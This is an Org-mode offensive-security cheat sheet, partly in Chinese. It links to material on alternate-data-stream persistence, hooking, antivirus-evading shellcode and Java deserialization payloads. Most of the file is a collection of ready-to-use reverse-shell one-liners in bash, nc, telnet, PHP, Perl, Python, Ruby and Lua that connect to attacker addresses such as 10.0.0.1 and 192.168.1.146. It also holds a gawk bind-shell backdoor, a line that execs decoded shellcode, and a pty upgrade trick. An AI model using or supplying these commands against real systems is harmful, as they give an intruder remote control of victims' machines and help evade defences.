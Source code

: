 ** 数据隐藏
   - [[https://www.cnblogs.com/Chesky/p/ALTERNATE_DATA_STREAMS.html][NTFS 交换数据流]]
   - [[https://enigma0x3.net/2015/03/05/using-alternate-data-streams-to-persist-on-a-compromised-machine/][Data Streams]]
*** KeePass 安全机制
 - https://keepass.info/help/base/security.html
** Hook
   - Detours: https://github.com/microsoft/Detours/wiki
   - inline hook lib: https://bbs.pediy.com/thread-225863.htm
   - linux elf hook *demo*: https://bbs.pediy.com/thread-178320.htm
** shellcode
   - 加密过杀软：https://xz.aliyun.com/t/6995
   - [[https://3gstudent.github.io/3gstudent.github.io/Shellcode%E7%94%9F%E6%88%90%E5%B7%A5%E5%85%B7Donut%E6%B5%8B%E8%AF%95%E5%88%86%E6%9E%90/][3gstudent shellcode 生成工具]]
** Java
   - 反序列化代码执行：http://www.jackson-t.ca/runtime-exec-payloads.html
** reverse shell
*** bash
    bash -i >& /dev/tcp/ip/port 0>&1
*** nc
    nc -e /bin/bash 192.168.1.146 7777
*** telnet
    #+begin_src sh
    telnet mknod backpipe p && telnet attackerip 8080 0<backpipe | \
    /bin/bash 1>backpipe
    #+end_src
*** php
    php -r 'exec("/bin/bash -i >& /dev/tcp/192.168.1.146/7777");'
*** perl
    #+begin_src sh
    perl -e 'use Socket;$i="10.0.0.1";$p=1234;
    socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
    if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
    open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    #+end_src
*** python
    #+begin_src sh
    python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,
              socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);
              os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
              p=subprocess.call(['/bin/bash','-i']);"
    python -c "exec(\"import socket, subprocess;s=socket.socket();
              s.connect(('127.0.0.1',9000))\n
              while 1:  proc = subprocess.Popen(s.recv(1024), shell=True,
              stdout=subprocess.PIPE, stderr=subprocess.PIPE,
              stdin=subprocess.PIPE);
              s.send(proc.stdout.read()+proc.stderr.read())\")"
    python -c "exec(shellcode.encode('base64').decode('base64'))"
    #+end_src
*** ruby
    #+begin_src sh
    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;
            exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    #+end_src
*** lua
    #+begin_src sh
    lua -e "require('socket');require('os');t=socket.tcp();
    t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
    #+end_src
*** awk
#+begin_src awk
  #!/usr/bin/gawk -f
  BEGIN {
      Port    =  8080
      Prompt  =  "bkd> "
      Service = "/inet/tcp/" Port "/0/0"
      while (1) {
          do {
              printf Prompt |& Service
              Service |& getline cmd
              if (cmd) {
                  while ((cmd |& getline) > 0)
                      print $0 |& Service
                  close(cmd)
              }
          } while (cmd != "exit")
          close(Service)
      }
  }
#+end_src
*** misc
   pseudo-terminal
   #+begin_src sh
   python -c 'import pty;pty.spawn("/bin/bash")'
   #+end_src
   - [[https://www.freebuf.com/news/142195.html][如何将简单的 Shell 转换成为完全交互式的 TTY]]
   - [[https://xz.aliyun.com/t/7721][完整交互式 shell]]
